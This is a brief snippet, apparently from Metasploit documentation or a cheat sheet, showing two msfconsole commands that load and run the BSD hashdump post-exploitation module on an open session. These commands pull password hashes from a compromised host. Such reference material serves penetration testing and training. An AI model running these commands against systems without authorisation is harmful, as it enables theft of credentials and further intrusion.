 # Hashdump

```
msf > use post/bsd/gather/hashdump

msf post(bsd/gather/hashdump) > run session=<session_ID>
```
